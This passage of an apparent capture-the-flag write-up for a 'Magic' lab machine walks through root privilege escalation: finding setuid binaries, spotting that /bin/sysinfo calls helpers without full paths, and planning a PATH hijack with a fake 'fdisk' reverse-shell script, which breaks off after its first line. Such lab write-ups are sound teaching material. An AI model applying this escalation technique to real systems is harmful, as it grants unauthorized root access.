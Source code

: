 4. Demo - Query database w/ PHP
	![](TYztc97uYa.gif)



## Root - Enumeration
1. Enumerate files w/ setuid bit
	```
	theseus@ubuntu:/var/www/Magic$ find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null | grep info
	-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
	```
	![]({{ page.img_path }}Pasted%20image%2020220927060927.png)

## Root - What is systeminfo doing?
1. Find out what file type is `/bin/sysinfo`
	```
	theseus@ubuntu:/var/www/Magic$ file /bin/sysinfo
	/bin/sysinfo: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9e9d26d004da0634c0747d16d377cd2a934e565a, not stripped
	```
2. Analyze the binary w/ `binaryninja` 
	![]({{ page.img_path }}Pasted%20image%2020220927061405.png)
	> `sysinfo` is susceptible to PATH Hijacking exploit because the executables/binaries are not called w/ their FULL PATH.
	{: .prompt-info}


## Root - Path Hijacking
1. Understanding PATH environment variable
	- `PATH` specifies the directories in which executable programs are located on the machine that can be started without knowing and typing the whole path to the file on the command line. - [Source](https://superuser.com/questions/284342/what-are-path-and-other-environment-variables-and-how-can-i-set-or-use-them)
2. How do we exploit `/bin/sysinfo`
	1. Since the executables are not called w/ their full path, the system will search all the directories defined in the PATH environment variable for the executables.
	2. We can prepend a directory we have write access to, to the path environment variable, so that the system searches that directory first.
	3. We create a malicious executable that has the same name as the executable called in `sysinfo`, this will cause the system to execute our malicious executable because it is found first in the PATH environment.
4. However, the exploit does not work if we prepend `/tmp`, we have to unset the PATH environment and then add `/tmp` only, not sure why.
5. Exploit `/bin/sysinfo`
	1. Create reverse shell payload
		```
		theseus@ubuntu:/tmp$ cat fdisk
		#!/bin/bash
		